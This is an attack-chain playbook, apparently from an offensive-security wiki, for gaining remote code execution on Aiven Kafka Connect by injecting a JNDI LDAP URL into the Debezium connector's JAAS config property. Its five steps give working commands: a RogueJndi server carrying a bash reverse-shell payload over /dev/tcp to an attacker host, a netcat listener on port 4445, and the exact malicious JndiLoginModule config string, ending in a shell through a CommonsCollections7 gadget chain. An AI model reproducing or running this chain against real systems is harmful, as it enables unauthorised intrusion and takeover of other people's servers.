

# RCE in Aiven Kafka Connect via Debezium JAAS JNDI LDAP Injection

Multi-stage attack chain exploiting a deserialization vulnerability in the Debezium MySQL connector's `database.history.producer.sasl.jaas.config` property within Aiven Kafka Connect. Attackers inject a malicious JNDI LDAP URL to trigger untrusted deserialization, leading to remote code execution via a gadget chain and reverse shell.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/RogueJndi]]
- [[tools/Netcat]]
- [[tools/Python3]]

### Target Environment

- Aiven Kafka Connect with Debezium MySQL connector
- Access to Aiven API or Kafka Connect REST API for configuration
- Network access to target from attacker VPS
- Ports: 4445 (TCP for reverse shell), LDAP port (default 389)

### Initial Access Requirements

- Attacker-controlled VPS with SSH access
- API credentials for Aiven or Kafka Connect
- Python environment for PoC script

## Detailed Attack Procedures

### Step 1: Access Attacker VPS
procedure: [[procedures/SSH-Login-to-Attacker-VPS]]

**Objective**: Gain access to the VPS to host the rogue LDAP server and listener.

**Instructions**: Use [[commands/ssh-login-to-vps]] to connect to the VPS:

```bash
ssh ███████
```

**Expected Output**: Successful SSH session into the VPS.

**Success Indicators**:
- SSH login prompt accepted
- Shell access to VPS confirmed

### Step 2: Start Rogue JNDI LDAP Server
procedure: [[procedures/Start-Rogue-JNDI-LDAP-Server]]

**Objective**: Host a malicious LDAP server to serve deserialization gadget chains for RCE.

**Instructions**: Download and run RogueJndi using [[commands/start-roguejndi-server]]:

```bash
java -jar RogueJndi-1.1.jar --hostname ███ -c "bash -c bash\${IFS}-i\${IFS}>&/dev/tcp/███/4445<&1"
```

**Expected Output**: RogueJndi server starts and listens for LDAP queries.

**Success Indicators**:
- Server output indicates it's running on the specified hostname
- Ready to respond with gadget chain

### Step 3: Setup Reverse Shell Listener
procedure: [[procedures/Setup-Netcat-Reverse-Shell-Listener]]

**Objective**: Prepare to receive the incoming reverse shell from the exploited server.

**Instructions**: Launch netcat listener with [[commands/nc-reverse-shell-listener]]:

```bash
nc -nlvp 4445
```

**Expected Output**: Listener active on port 4445.

**Success Indicators**:
- "Listening on [0.0.0.0] (family 0, port 4445)" message
- No port conflicts

### Step 4: Trigger Exploit via Connector Configuration
procedure: [[procedures/Execute-Debezium-Connector-PoC-Script]]

**Objective**: Inject malicious JNDI LDAP URL into the Debezium connector config to initiate deserialization.

**Instructions**: Run the Python PoC script using [[commands/python3-poc-execution]] to update the JAAS config via API:

```bash
python3 poc.py
```
The script sets `database.history.producer.sasl.jaas.config` to `com.sun.security.auth.module.JndiLoginModule required user.provider.url="ldap://attacker_server" useFirstPass="true" serviceName="x" debug="true" group.provider.url="xxx";`.

**Expected Output**: API response confirming connector update; LDAP query to attacker server.

**Success Indicators**:
- Connector configuration applied successfully
- Incoming LDAP connection from target

### Step 5: Receive Reverse Shell
procedure: [[procedures/Receive-and-Interact-with-Reverse-Shell]]

**Objective**: Capture and interact with the RCE shell on the Kafka Connect server.

**Instructions**: Monitor the netcat listener for the incoming connection. Upon receipt, the deserialization triggers the reverse shell using CommonsCollections7 payload.

**Expected Output**: Interactive bash shell from the target server.

**Success Indicators**:
- Connection from Kafka Connect IP on port 4445
- Ability to execute commands like `whoami` or `id`

## Attack Chain Summary

### Key Achievements

1. Successful injection of JNDI LDAP URL via Debezium JAAS config
2. Deserialization of malicious gadget chain leading to RCE
3. Establishment of reverse shell for command execution on Kafka Connect server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[Unix Shell]] Unix Shell

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
